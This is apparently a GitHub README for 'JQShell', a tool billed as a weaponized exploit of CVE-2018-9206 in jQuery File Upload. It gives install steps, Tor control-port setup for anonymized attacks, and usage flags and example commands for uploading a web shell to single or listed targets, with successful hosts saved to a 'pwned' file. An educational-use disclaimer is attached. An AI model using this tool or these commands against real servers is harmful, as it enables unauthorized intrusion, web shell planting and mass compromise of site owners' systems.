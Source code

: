 ![alt text](https://i.imgur.com/Gp4QkiN.png)

**JQShell** 

A weaponized version of CVE-2018-9206.

**Disclaimer**

Using this agianst servers you dont control, is illegal in most countries.
The author claims no responsibility for the actions of those who use this software for illegal purposes.
This software is intended for educational use only.
No servers were illegally pwned in the making of this software.

**Features**

*Single Target*
*Multi Target*
*Tor*

**Prerequisites**

Please install these required packages.

**Python3**

```shell
pip3 install requests pysocks subprocess stem
```
**Tor Control Port**

To use tor, in this script, you must edit your torrc file and enable tor control port on 9051.

Typically this file is here: /etc/tor/torrc

open this file and change this line:

```shell
#ControlPort 9051
```

to

```shell
ControlPort 9051
```

```shell
restart tor service
```

**Usage**

```shell
usage: jqshell.py [-h] [-l LIST_INIT] [-t SINGLE_TARGET] -s SHELL_LOC
                  [-o OUTPUTZ] [-tor]

optional arguments:
  -h, --help            show this help message and exit
  -l LIST_INIT, --list LIST_INIT
                        Select for a list of assets to exploit
  -t SINGLE_TARGET, --target SINGLE_TARGET
                        Single exploit target
  -s SHELL_LOC, --shell SHELL_LOC
                        This is required, put the fullpath to your shell
  -o OUTPUTZ, --output OUTPUTZ
                        This is full path to were you want to save your list
                        of confirmed hosts
  -tor, --tor_proxy     Select if you have tor installed, you will need to
                        enable control port
```
**Examples**

Running agianst single target.
```shell
python3 jqshell.py -t http://localhost/folderwerejqueryis -s /var/www/html/shell.php
```
Running agianst single target, with saving output.
```shell
python3 jqshell.py -t https://localhost/folderwerejqueryis -s /var/www/html/shell.php -o pwned.txt
```
Running a list, with saving output.
```shell
python3 jqshell.py -l /opt/jquery/test.txt -s /var/www/html/shell.php -o pwned.txt
```
**Author**

* **Joshua Whitaker** 
* *Twitter* [@_Stahlz](https://twitter.com/_Stahlz)
* *Email* - [stahl@stahl.io](stahl@stahl.io)
* *Website* - [stahl.io](http://stahl.io)



